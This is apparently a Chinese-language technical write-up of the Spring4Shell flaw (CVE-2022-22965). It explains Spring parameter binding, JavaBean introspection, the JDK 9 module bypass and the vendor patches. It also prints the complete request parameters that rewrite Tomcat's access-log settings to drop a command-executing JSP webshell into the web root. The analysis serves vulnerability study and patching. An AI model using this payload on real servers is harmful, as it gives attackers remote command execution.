- [CVE-2022-22965 Spring MVC 远程代码执行](#cve-2022-22965-spring-mvc-远程代码执行)
  - [影响版本](#影响版本)
  - [环境搭建](#环境搭建)
  - [原理分析](#原理分析)
    - [参数绑定](#参数绑定)
    - [Class对象](#class对象)
    - [JAVA & Spring Bean](#java--spring-bean)
    - [BeanPropertyHandler](#beanpropertyhandler)
    - [利用class对象](#利用class对象)
    - [链式访问](#链式访问)
    - [Tomcat Accesslog](#tomcat-accesslog)
    - [RCE思路](#rce思路)
    - [JDK 9](#jdk-9)
    - [漏洞复现](#漏洞复现)
  - [补丁](#补丁)
  - [参考](#参考)
# CVE-2022-22965 Spring MVC 远程代码执行
## 影响版本
Spring Framework  
5.3.0 to 5.3.17  
5.2.0 to 5.2.19  
Older, unsupported versions are also affected  

受影响环境:
jdk: >= 9  
容器: Apache tomcat  
部署方式: WAR  
依赖: 使用了Spring-webmvc 或 spring-webflux
## 环境搭建
pom.xml
```
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>Springmvc</artifactId>
    <version>1.0-SNAPSHOT</version>
    <packaging>war</packaging>

    <properties>
        <maven.compiler.source>8</maven.compiler.source>
        <maven.compiler.target>8</maven.compiler.target>
    </properties>
<dependencies>
    <dependency>
        <groupId>org.springframework</groupId>
        <artifactId>spring-web</artifactId>
        <version>5.3.17</version>
    </dependency>
    <dependency>
        <groupId>org.springframework</groupId>
        <artifactId>spring-webmvc</artifactId>
        <version>5.3.17</version>
    </dependency>
</dependencies>
</project>
```
user
```java
package entry;

public class User {
    private String name="polio";
    private int age = 20;
    private int male= 1;
    private boolean admin =false;

    public void setAge(int age) {
        this.age = age;
        System.out.println("setAge invoke");
    }

    public String getName() {
        return name;
    }

    public int getAge() {
        return age;
    }

    public void setName(String name) {
        this.name = name;
        System.out.println("setName invoke");

    }
    public void setAdmin(boolean admin) {
        this.admin = admin;
    }

    public boolean getAdmin(){
        return this.admin;
    }
}

```
Contorller
```java
package com.test.Controller;

import entry.User;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.ResponseBody;


@Controller

public class TestController   {
    @RequestMapping(value = "/test")
    @ResponseBody
    public String test(){
        return "test1";
    }
    @RequestMapping(value = "/user")
    @ResponseBody
    public String User(User user){
        if(user.getAdmin()){
            return "this is admin";
        }
        return "this user name "+user.getName()+" and age is "+user.getAge()+"and male is "+ user.getAdmin();
    }

}

```
打包成war包部署到tomcat.
## 原理分析
其实是针对cve-2010-1622漏洞的绕过
### 参数绑定
参数绑定是一种软件框架允许将HTTP参数直接和程序对象
字段做绑定的功能.
以Spring为例,Spring mvc的字段映射功能,如果传入的参数名称和接受参数对象的字段一致,则会尝试将用户输入的参数值自动绑定到参数对象对应的字段中,其原理在于如果参数类型为一个POJO对象(实现了setter和getter方法的类),则会自动调用该对象的set方法使用HTTP传入的参数值进行赋值.  
### Class对象
Class对象是JVM用来描述一个对象类信息的对象,其只能由JVM进行创建,而获取某个类的Class对象的方法可以通过该类实例对象.getClass() 方法返回运行时类的对象或者通过Class的静态方法forName()通过完整类名获取.
```java
public class main {
    public static void main(String[] args) throws ClassNotFoundException {
        String s = "";
        Class cl = s.getClass();
        Class scl = Class.forName("java.lang.String");
        System.out.println(cl);
        System.out.println(scl);

    }
}
```
输出
```
class java.lang.String
class java.lang.String
```
### JAVA & Spring Bean
JAVA Bean即为满足某些条件的类则称为JAVA Bean.
1. 所有的类必须声明为public，这样才能够被外部所访问；
2. 类中所有的属性都必须封装，即：使用private声明；
3. 封装的属性如果需要被外部所操作，则必须编写对应的setter、getter方法；
4. 一个JavaBean中至少存在一个无参构造方法  
  
如  
```java

public class User {
    private String name;
    private int age;
    private int male;
    private boolean admin;

    public void setAge(int age) {
        this.age = age;
    }
    public String getName() {
        return name;
    }
    public int getAge() {
        return age;
    }
    public void setName(String name) {
        this.name = name;
    }
    public void setAdmin(boolean admin) {
        this.admin = admin;
    }
    public boolean getAdmin(){
        return this.admin;
    }
}

```
通过java的内省机制(Introspector)可以通过属性名称来获取一个JAVA Bean所有属性,来对Bean属性进行操作.
```java
import entry.User;

import java.beans.BeanInfo;
import java.beans.IntrospectionException;
import java.beans.Introspector;
import java.beans.PropertyDescriptor;

public class main {
    public static void main(String[] args) throws  IntrospectionException {
        BeanInfo info = Introspector.getBeanInfo(User.class);
        for (PropertyDescriptor pd : info.getPropertyDescriptors()) {
            System.out.println(pd.getName());
            System.out.println("    [*]" + pd.getReadMethod());
            System.out.println("    [*]" + pd.getWriteMethod());

        }
    }
}
```
输出
```
admin
    [*]public boolean entry.User.getAdmin()
    [*]public void entry.User.setAdmin(boolean)
age
    [*]public int entry.User.getAge()
    [*]public void entry.User.setAge(int)
class
    [*]public final native java.lang.Class java.lang.Object.getClass()
    [*]null
name
    [*]public java.lang.String entry.User.getName()
    [*]public void entry.User.setName(java.lang.String)
```
发现除了在User类里面指定的三个属性外还有一个class属性.而且该class属性是从java.lang.Object.getClass()赋值的,也就是说其实JAVA Bean的类对象为Object类,这是因为所有的类都是继承于Object类,自然也继承了Object类的所有方法.

SpringBean则是Springmvc中对javabean的扩展,但格式要求没有这么严格,对Spring来说Spring Bean即是可以被Spring容器进行管理的java对象,而Spring容器在创建JAVA Bean时则是通过配置文件获取到Spring Bean的定义创建一个原始的Spring Bean,再通过调用setter/getter或者自省等方式对其属性进行赋值得到一个完整的Spring Bean,然后将其放入Spring容器中供后续调用.
###  BeanPropertyHandler
在Spring加载Java Bean时,主要通过BeanPropertyHandler方法来对其属性进行赋值.
可以看到在构造方法中通过JDK自带的`Introspector`中的PropertyDescriptor来获取到该Spring Bean的属性类型和读写方法.
  
然后后续通过setValue来给该属性赋值,在其中主要是通过反射调用其writeMethod方法对属性进行赋值.    
  
最后调用到该属性的set方法  

### 利用class对象
因为每个对象除了自身定义的属性之外还有一个默认的class属性,所以通过访问class属性来调用该class属性的set方法.
```java
public class main {
    public static void main(String[] args) throws  IntrospectionException {
        BeanInfo info = Introspector.getBeanInfo(Class.class);
        for (PropertyDescriptor pd : info.getPropertyDescriptors()) {
            System.out.println(pd.getName());
            System.out.println("    [*]" + pd.getReadMethod());
            System.out.println("    [*]" + pd.getWriteMethod());

        }
    }
}
```
查看class类对象的读写方法
```
annotatedInterfaces
    [*]public java.lang.reflect.AnnotatedType[] java.lang.Class.getAnnotatedInterfaces()
    [*]null
annotatedSuperclass
    [*]public java.lang.reflect.AnnotatedType java.lang.Class.getAnnotatedSuperclass()
    [*]null
annotation
    [*]public boolean java.lang.Class.isAnnotation()
    [*]null
annotations
    [*]public java.lang.annotation.Annotation[] java.lang.Class.getAnnotations()
    [*]null
anonymousClass
    [*]public boolean java.lang.Class.isAnonymousClass()
    [*]null
array
    [*]public native boolean java.lang.Class.isArray()
    [*]null
canonicalName
    [*]public java.lang.String java.lang.Class.getCanonicalName()
    [*]null
class
    [*]public final native java.lang.Class java.lang.Object.getClass()
    [*]null
classLoader
    [*]public java.lang.ClassLoader java.lang.Class.getClassLoader()
    [*]null
classes
    [*]public java.lang.Class[] java.lang.Class.getClasses()
    [*]null
componentType
    [*]public java.lang.Class java.lang.Class.getComponentType()
    [*]null
constructors
    [*]public java.lang.reflect.Constructor[] java.lang.Class.getConstructors() throws java.lang.SecurityException
    [*]null
declaredAnnotations
    [*]public java.lang.annotation.Annotation[] java.lang.Class.getDeclaredAnnotations()
    [*]null
declaredClasses
    [*]public java.lang.Class[] java.lang.Class.getDeclaredClasses() throws java.lang.SecurityException
    [*]null
declaredConstructors
    [*]public java.lang.reflect.Constructor[] java.lang.Class.getDeclaredConstructors() throws java.lang.SecurityException
    [*]null
declaredFields
    [*]public java.lang.reflect.Field[] java.lang.Class.getDeclaredFields() throws java.lang.SecurityException
    [*]null
declaredMethods
    [*]public java.lang.reflect.Method[] java.lang.Class.getDeclaredMethods() throws java.lang.SecurityException
    [*]null
declaringClass
    [*]public java.lang.Class java.lang.Class.getDeclaringClass() throws java.lang.SecurityException
    [*]null
enclosingClass
    [*]public java.lang.Class java.lang.Class.getEnclosingClass() throws java.lang.SecurityException
    [*]null
enclosingConstructor
    [*]public java.lang.reflect.Constructor java.lang.Class.getEnclosingConstructor() throws java.lang.SecurityException
    [*]null
enclosingMethod
    [*]public java.lang.reflect.Method java.lang.Class.getEnclosingMethod() throws java.lang.SecurityException
    [*]null
enum
    [*]public boolean java.lang.Class.isEnum()
    [*]null
enumConstants
    [*]public java.lang.Object[] java.lang.Class.getEnumConstants()
    [*]null
fields
    [*]public java.lang.reflect.Field[] java.lang.Class.getFields() throws java.lang.SecurityException
    [*]null
genericInterfaces
    [*]public java.lang.reflect.Type[] java.lang.Class.getGenericInterfaces()
    [*]null
genericSuperclass
    [*]public java.lang.reflect.Type java.lang.Class.getGenericSuperclass()
    [*]null
interface
    [*]public native boolean java.lang.Class.isInterface()
    [*]null
interfaces
    [*]public java.lang.Class[] java.lang.Class.getInterfaces()
    [*]null
localClass
    [*]public boolean java.lang.Class.isLocalClass()
    [*]null
memberClass
    [*]public boolean java.lang.Class.isMemberClass()
    [*]null
methods
    [*]public java.lang.reflect.Method[] java.lang.Class.getMethods() throws java.lang.SecurityException
    [*]null
modifiers
    [*]public native int java.lang.Class.getModifiers()
    [*]null
module
    [*]public java.lang.Module java.lang.Class.getModule()
    [*]null
name
    [*]public java.lang.String java.lang.Class.getName()
    [*]null
package
    [*]public java.lang.Package java.lang.Class.getPackage()
    [*]null
packageName
    [*]public java.lang.String java.lang.Class.getPackageName()
    [*]null
primitive
    [*]public native boolean java.lang.Class.isPrimitive()
    [*]null
protectionDomain
    [*]public java.security.ProtectionDomain java.lang.Class.getProtectionDomain()
    [*]null
signers
    [*]public native java.lang.Object[] java.lang.Class.getSigners()
    [*]null
simpleName
    [*]public java.lang.String java.lang.Class.getSimpleName()
    [*]null
superclass
    [*]public native java.lang.Class java.lang.Class.getSuperclass()
    [*]null
synthetic
    [*]public boolean java.lang.Class.isSynthetic()
    [*]null
typeName
    [*]public java.lang.String java.lang.Class.getTypeName()
    [*]null
typeParameters
    [*]public java.lang.reflect.TypeVariable[] java.lang.Class.getTypeParameters()
    [*]null

Process finished with exit code 0

```
其中的`classLoader`属性则是类加载器的值,而ClassLoader可以影响加载类对象的值,但该属性只有getter方法没有setter方法,正常情况下无法对其赋值,但在Spring中会通过jdk自带的内省机制来获取该Spring Bean的属性信息,然后Spring会手动为该属性赋值.  
在CachedIntrospectionResults类中通过getBeaninfo()获取到其Spring Bean属性信息.
  
在getBeaninfo()中通过如下`Introspector.getBeanInfo`获取到属性信息.

### 链式访问
在Spring中可以通过链式访问类的某个属性,比如访问User类的age属性是通过user.getAge(),如果其中一个属性是另一个类如car,而car类中又有一个color属性,那么正常情况下访问该color属性的方式则是User.getCar().getColor即可访问到color属性,而在Spring中则是以`.`分隔符进行访问,即`user.car.color=User.getCar().getColor()`.
那么通过任意的类.getClassloader()即可以得到当前环境的类加载器.
### Tomcat Accesslog
而在不同的平台上的类加载器都有一定差异,在tomcat容器中,其ClassLoader中有几个属性指定了Tomcat日志文件生成的相关信息.  
默认值如下
```
class.classLoader.resources.context.parent.pipeline.first.directory =logs
class.classLoader.resources.context.parent.pipeline.first.prefix =localhost_access_log
class.classLoader.resources.context.parent.pipeline.first.suffix = .txt
class.classLoader.resources.context.parent.pipeline.first.fileDateFormat =.yyyy-mm-dd
```
  
正常情况下日志文件的配置信息在conf/server.xml中设置
```xml
<Valve className="org.apache.catalina.valves.AccessLogValve" directory="logs" prefix="access." suffix=".log" 
        pattern="%h %l %u %t "%r" %s %b "%{Referer}i" "%{User-Agent}i" %{X-Forwarded-For}i "%Dms"" resolveHosts="false"/>
```
### RCE思路
通过修改Tomcat的日志文件生成信息使得可以在我们指定的路径下生成任意后缀的日志文件,并且可以指定其内容格式,所以可以通过该方法来在WEB目录下写入webshell.
### JDK 9
正常情况下可以通过class.getClassLoader()来获取类加载器,而这也是CVE-2010-1622的利用方式,在CVE-2010-1622的补丁中把classLoader加入了黑名单.  
  
这次则是利用jdk9之后加入的新特性绕过了该补丁,在jdk9之后加入了一个moudle属性,而moudle属性也可以得到类加载器,导致绕过了黑名单.
最后访问tomcat 日志文件的方法则变成了如下:  
`class.moudle.classLoader.resources.context.parent.pipeline.first.directory `  
通过修改日志属性如下
```
class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25{prefix}ijava.io.InputStream+in+%3d+Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream()%3bint+a+%3d+-1%3bbyte[]+b+%3d+new+byte[4096]%3bout.print("</pre>")%3bwhile((a%3din.read(b))!%3d-1){+out.println(new+String(b))%3b+}out.print("</pre>")%3b%25{suffix}i  
class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp  
class.module.classLoader.resources.context.parent.pipeline.first.directory=./webapps/ROOT/  
class.module.classLoader.resources.context.parent.pipeline.first.prefix=shell  
class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```
调用setVlaue来调用属性的set方法覆盖原来的值.  
   
可以发现ClassLoader中tomcat的相关属性已经被覆盖了  
  
此时访问任意url都会在web目录生成shell.jsp  
### 漏洞复现
  
  
## 补丁
在tomcat中对resources属性作了限制返回为空,无法通过classLoader获取该属性也就无法对日志文件生成信息进行修改.  
   
在Spring中对传入的属性进行了判断，第一是只允许为name并以Name结尾的属性，第二是属性返回的类型不是Classloader及Classloader子类  
  
## 参考
https://www.cnpanda.net/sec/1196.html